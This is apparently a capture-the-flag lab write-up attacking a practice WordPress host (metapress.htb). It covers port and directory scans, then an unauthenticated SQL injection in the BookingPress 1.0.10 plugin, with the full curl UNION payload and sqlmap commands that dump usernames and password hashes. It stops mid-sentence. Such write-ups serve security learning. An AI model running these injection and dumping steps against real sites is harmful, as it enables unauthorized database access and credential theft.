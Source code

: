 # Reconnaissance

## Port Scan (nmap)

**Command:**\
*sudo nmap -sC -sV -p- {IP address}*

**Command Description:**\
* -sC : Use default scripts
* -sV Service version
* -p- : Scan all ports
* {IP address} - Target host

**Results:**\
TCP Ports Open:
* 21 - FTP
* 22 - SSH
* 80 - HTTP

**Actions:**\
Edit */etc/hosts* and add the follwing line to display the website correctly on port 80 (HTTP): *{IP address} 	metapress.htb*

Looking at the page we can see that it is most likely WordPress. We can check the source code of http://metapress.htb/events/ or also use *Wappalyzer* extension to see that it is using WordPress with version 5.6.2.

![image](https://user-images.githubusercontent.com/85443537/226896247-4f303963-a538-4210-a13e-2759fa3cf1ed.png)

## Directory Scan (gobuster)

**Command:**\
*gobuster dir -u http://metapress.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt*

**Command Description:**
* dir : Directory scan
* -u : Target url
* -w : Directory wordlist

**Results:**\
The interesting directory that was found: */wp-admin*

**Actions:**\
Navigate to: *http://metapress.htb/wp-admin*

After navigating to wp-admin we find that it requires a login. We try default passwords but with no luck.

##  Finding possible WordPress vulnerabilities using WPScan (wpscan)

We type the following command to run the wordpress security scan.

**Command:**\
*wpscan --url metapress.htb --api-token {Your API-token}
*

**Results:**\
We find a possible vulnerability "Authenticated XXE Within the Media Library Affecting PHP 8" for WordPress versions 5.6-5.7. The WordPress version of the webserver found was 5.6.2.

![image](https://user-images.githubusercontent.com/85443537/226898865-a6e1404a-e6a6-469f-bf6c-b7ad5882afea.png)

We look at the source code of the */events* page again and find that it is using bookingpress version 1.0.10.

![image](https://user-images.githubusercontent.com/85443537/226902782-7e98982f-d287-4d4e-b8d5-c5b94a3470db.png)

We navigate to the first link of "References" (https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5
) to learn more about how to exploit this identified vulnerability.

The description from the reference is: 
*The plugin fails to properly sanitize user supplied POST data before it is used in a dynamically constructed SQL query via the bookingpress_front_get_category_services AJAX action (available to unauthenticated users), leading to an unauthenticated SQL Injection*

To exploit this we need to find the *_wpnonce* value which can also be found in the */events* source page.

![image](https://user-images.githubusercontent.com/85443537/226904218-d7a417bc-eb1f-494e-90e3-fc9cb5aa96ef.png)

_wpnonce = 8181f9cfbb

## Capturing the request using BurpSuite (burpsuite)

Open burpsuite and capture the request after running the following command in the terminal
Note: Replace the _wpnonce with your value.

*curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=8181f9cfbb&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -' -x http://127.0.0.1:8080*
  
It should look something like this in burpsuite:

![image](https://user-images.githubusercontent.com/85443537/226907046-2f2c8226-58c7-41f1-bfa5-6b05dd10de46.png)

And giving you the response:

![image](https://user-images.githubusercontent.com/85443537/226907090-3a2404d4-df0b-4715-9384-6886c28a1236.png)

We then save the POST request to a file by right clicking on the request and choosing the option *Copy to file* (we call it bookingpress.req).

![image](https://user-images.githubusercontent.com/85443537/226907483-57fdd4b3-e9b0-4170-bab2-efb6be48bb77.png)

Edit the copied file and change the *total_service* value to any number, in our case we will put it as 1. Then remove the "Injection" part from the query so that the only thing that will be left is the following:
*action=bookingpress_front_get_category_services&_wpnonce=8181f9cfbb&category_id=33&total_service=1)*

The edited request file should look like this:

POST /wp-admin/admin-ajax.php HTTP/1.1\
Host: metapress.htb\
User-Agent: curl/7.87.0\
Accept: */*\
Content-Length: 185\
Content-Type: application/x-www-form-urlencoded\
Connection: close

action=bookingpress_front_get_category_services&_wpnonce=8181f9cfbb&category_id=33&total_service=1)

## Dumping Database using SQLMap (sqlmap)

Type the following command in the terminal to see if the parameter is injectable:

**Command:**\
*sqlmap -r bookingpress.req -p total_service --batch*

**Command Description:**\
* -r : Request file
* -p : Parameter
* --batch : Non-interactive session (do not ask for user input)

**Results:**\
The parameter is injectable.

We can now list the databases using the following command:

**Command:**\
*sqlmap -r bookingpress.req -p total_service --dbs*

**Results:**\
Tables: *blog* and *information_schema*

We look further into the blog database by writting the following command:

**Command:**\
*sqlmap -r bookingpress.req -p total_service -D blog --tables*

**Results:**\
We found an interesting table called *wp_users*

We look into the wp_users table by dumping it using the following command:

**Command:**\
*sqlmap -r bookingpress.req -p total_service -D blog -T wp_users --dump*

**Results:**\
We get two users that are interesting, *manager* and *admin*. We also get their corresponding hash.

![image](https://user-images.githubusercontent.com/85443537/226912431-c5ecffff-6fca-454b-a372-8a9ac0e7a6df.png)

To make it more visible we can use this command instead to get the username and hash only by looking into user_login and user_pass columns:

*sqlmap -r bookingpress.req -p total_service -D blog -T wp_users -C user_login,user_pass --batch --dump*

![image](https://user-images.githubusercontent.com/85443537/226911825-bb904bc3-cf60-4910-9583-c5dc56882d7a.png)

We 






